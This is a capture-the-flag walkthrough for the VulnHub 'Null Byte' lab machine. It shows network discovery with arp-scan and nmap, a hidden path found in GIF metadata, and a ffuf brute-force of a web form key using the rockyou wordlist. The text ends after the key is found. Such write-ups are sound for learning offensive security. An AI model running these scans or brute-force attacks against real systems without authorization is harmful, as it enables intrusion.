 # NULLBYTE: 1

## 1.Get VM IP

```text
root@kali: arp-scan -I eth1 -l

Interface: eth1, type: EN10MB, MAC: 00:0c:29:3a:bc:b3, IPv4: 192.168.127.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.127.1   00:50:56:c0:00:01       VMware, Inc.
192.168.127.232 00:0c:29:5a:43:e9       VMware, Inc.
192.168.127.254 00:50:56:fd:64:8a       VMware, Inc.
```

The IP address is `192.168.127.232`, let's enumerate the machine.

## 2.Enumeration

```text
root@kali: nmap -sV -sC -p- -v -oN fullscan 192.168.127.232

Nmap scan report for 192.168.127.232
Host is up (0.0022s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Null Byte 00 - level 1
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          38099/tcp6  status
|   100024  1          49056/udp   status
|   100024  1          49267/tcp   status
|_  100024  1          53634/udp6  status
777/tcp   open  ssh     OpenSSH 6.7p1 Debian 5 (protocol 2.0)
| ssh-hostkey:
|   1024 16:30:13:d9:d5:55:36:e8:1b:b7:d9:ba:55:2f:d7:44 (DSA)
|   2048 29:aa:7d:2e:60:8b:a6:a1:c2:bd:7c:c8:bd:3c:f4:f2 (RSA)
|   256 60:06:e3:64:8f:8a:6f:a7:74:5a:8b:3f:e1:24:93:96 (ECDSA)
|_  256 bc:f7:44:8d:79:6a:19:48:76:a3:e2:44:92:dc:13:a2 (ED25519)
49267/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:5A:43:E9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On port 80, we see a web page like this :

![mainPage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/c2abb771-965c-4fbf-a5db-1906e0d2dc71)

fuzzing the website leads to finding a `phpmyadmin` path and nothing else, because there is no clue here i thought that there might be something in the image itself

so i downloaded the image (which is a gif file) and inspect it with `exiftool` :

```text
root@kali: exiftool main.gif

ExifTool Version Number         : 12.65
File Name                       : main.gif
Directory                       : .
File Size                       : 17 kB
File Modification Date/Time     : 2015:08:01 12:39:30-04:00
File Access Date/Time           : 2023:09:23 07:03:57-04:00
File Inode Change Date/Time     : 2023:09:23 06:52:11-04:00
File Permissions                : -rw-r--r--
File Type                       : GIF
File Type Extension             : gif
MIME Type                       : image/gif
GIF Version                     : 89a
Image Width                     : 235
Image Height                    : 302
Has Color Map                   : No
Color Resolution Depth          : 8
Bits Per Pixel                  : 1
Background Color                : 0
Comment                         : P-): kzMb5nVYJw
Image Size                      : 235x302
Megapixels                      : 0.071
```

as it is shows in `Comment` section we see a string, `kzMb5nVYJw`, which is more likely to be the path

by adding this string to the path in the website, page below is shown :

![keypage](https://github.com/Git-K3rnel/VulnHub/assets/127470407/1c4156b7-7c45-4c95-bbb5-c9cb7be3d9ac)

and the page source has a comment :

```text
<!-- this form isn't connected to mysql, password ain't that complex --!>
```

so we can some how brute force the password here, i used `ffuf` for doing this, but you can also use a custome python script or some other tools :

```text
root@kali: ffuf -w /usr/share/wordlists/rockyou.txt  -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "key=FUZZ" -u http://192.168.127.232/kzMb5nVYJw/index.php -fw 19

[Status: 200, Size: 145, Words: 9, Lines: 7, Duration: 6ms]
    * FUZZ: elite
```














